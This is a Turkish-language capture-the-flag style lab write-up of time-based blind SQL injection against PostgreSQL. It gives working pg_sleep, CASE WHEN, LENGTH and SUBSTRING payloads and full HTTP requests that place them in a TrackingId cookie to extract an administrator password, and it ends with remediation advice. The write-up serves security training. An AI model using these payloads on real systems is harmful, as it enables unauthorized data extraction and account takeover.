







# Blind SQL injection with time delays and information retrieval

## 1. Lab Bilgisi

**Difficulty:** Practitioner

## 2. Vulnerability Özeti

Bu labda `TrackingId` cookie değeri SQL sorgusuna güvenli şekilde eklenmediği için blind SQL injection yapılabiliyordu. Uygulama veritabanı çıktısını veya hata mesajlarını response içinde göstermiyordu; ancak SQL sorgusuna eklenen koşullu `pg_sleep()` fonksiyonu response süresini değiştiriyordu.

Amaç, zaman tabanlı blind SQL injection tekniğiyle `administrator` kullanıcısının parolasını karakter karakter tespit etmek ve hesaba giriş yapmaktı.

## 3. Exploitation Steps

1. Burp Suite ile `/login` isteğini yakaladım ve `TrackingId` cookie değerini test etmek için Repeater'a gönderdim. İlk olarak her zaman doğru olan bir koşulla PostgreSQL `pg_sleep(10)` fonksiyonunu çalıştırdım:

```sql
'+AND+(CASE+WHEN+1=1+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END)+IS+NULL--
```

Koşul doğru olduğu için response yaklaşık 10 saniye gecikmeli döndü. Böylece `TrackingId` cookie değerinin SQL sorgusuna dahil edildiği ve zaman gecikmesi oluşturulabildiği doğrulandı.



2. Aynı yapıyı yanlış koşulla test ettim:

```sql
'+AND+(CASE+WHEN+1=2+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END)+IS+NULL--
```

Koşul yanlış olduğu için `pg_sleep(10)` çalışmadı ve response normal sürede döndü. Bu fark, zaman tabanlı boolean kontrolünün çalıştığını gösterdi.



3. `administrator` kullanıcısının parola uzunluğunu bulmak için `LENGTH` fonksiyonunu kullandım:

```sql
'+AND+(CASE+WHEN+LENGTH((SELECT+password+FROM+users+WHERE+username='administrator'))=20+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END)+IS+NULL--
```

Response yaklaşık 10 saniye geciktiği için parolanın 20 karakter uzunluğunda olduğunu tespit ettim.



4. Parolanın belirli pozisyonundaki karakteri test etmek için `SUBSTRING` fonksiyonunu kullandım. Koşul doğru olduğunda `pg_sleep(10)` çalışıyor, yanlış olduğunda `pg_sleep(0)` ile response normal sürede dönüyordu.

```sql
'+AND+(CASE+WHEN+SUBSTRING((SELECT+password+FROM+users+WHERE+username='administrator'),1,1)='c'+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END)+IS+NULL--
```



5. Burp Intruder ile karakter denemelerini otomatikleştirdim. Payload position olarak test edilecek karakter alanını seçtim ve olası karakter listesini payload listesine ekledim.

```sql
'+AND+(CASE+WHEN+SUBSTRING((SELECT+password+FROM+users+WHERE+username='administrator'),1,1)='§a§'+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END)+IS+NULL--
```



6. Intruder sonuçlarında `Response received` süresi belirgin şekilde yüksek olan istekleri doğru karakter olarak değerlendirdim. Örnekte `6` payload'ı yaklaşık 10 saniyelik gecikme oluşturduğu için ilgili pozisyondaki doğru karakter olarak tespit edildi.



7. Aynı yöntemi tüm parola pozisyonları için tekrarladım. Elde ettiğim parola ile `administrator` hesabına giriş yaptım ve labı tamamladım.



## 4. Kullanılan Payloadlar

- Doğru koşulda zaman gecikmesini doğrulamak için:

```http
GET /login HTTP/2
Cookie: TrackingId=<tracking-id>'+AND+(CASE+WHEN+1=1+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END)+IS+NULL--; session=<session-id>
```

- Yanlış koşulda gecikme oluşmadığını doğrulamak için:

```http
GET /login HTTP/2
Cookie: TrackingId=<tracking-id>'+AND+(CASE+WHEN+1=2+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END)+IS+NULL--; session=<session-id>
```

- `administrator` kullanıcısının parola uzunluğunu tespit etmek için:

```http
GET /login HTTP/2
Cookie: TrackingId=<tracking-id>'+AND+(CASE+WHEN+LENGTH((SELECT+password+FROM+users+WHERE+username='administrator'))=20+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END)+IS+NULL--; session=<session-id>
```

- Parolanın belirli pozisyondaki karakterini test etmek için:

```http
GET /login HTTP/2
Cookie: TrackingId=<tracking-id>'+AND+(CASE+WHEN+SUBSTRING((SELECT+password+FROM+users+WHERE+username='administrator'),1,1)='a'+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END)+IS+NULL--; session=<session-id>
```

## 5. Sonuç

- `TrackingId` cookie değerinin SQL sorgusuna dahil edildiğini tespit ettim.
- Doğru koşulda response süresinin yaklaşık 10 saniye geciktiğini, yanlış koşulda normal sürede döndüğünü doğruladım.
- `LENGTH` ile `administrator` parolasının 20 karakter olduğunu belirledim.
- `SUBSTRING`, `CASE WHEN` ve `pg_sleep(10)` kullanarak parolayı karakter karakter çıkardım.
- Burp Intruder sonuçlarında yüksek response sürelerini doğru karakter göstergesi olarak kullandım.
- Elde edilen parola ile `administrator` hesabına giriş yaparak labı tamamladım.

## 6. Etki

Bu zafiyet, saldırganın veritabanı çıktısını veya hata mesajlarını göremediği durumlarda bile response sürelerini kullanarak hassas verileri çıkarmasına neden olabilir. Zaman tabanlı blind SQL injection ile kullanıcı parolaları gibi kritik bilgiler karakter karakter elde edilebilir ve hesap devralma gerçekleştirilebilir.

## 7. Çözüm

- SQL sorgularında parametreli/prepared statement kullan.
- Cookie ve header değerleri dahil tüm kullanıcı girdilerini güvenilmeyen veri olarak ele al.
- Kullanıcı girdilerini SQL sorgusuna doğrudan ekleme.
- Veritabanı fonksiyonlarının kullanıcı girdisiyle kontrol edilebilir hale gelmesini engelle.
- Response sürelerindeki anormal gecikmeleri izleyip alarm üret.
- Veritabanı kullanıcısına minimum yetki ver.
- Parolaları düz metin olarak saklama; güçlü, yavaş ve tuzlu hash algoritmaları kullan.
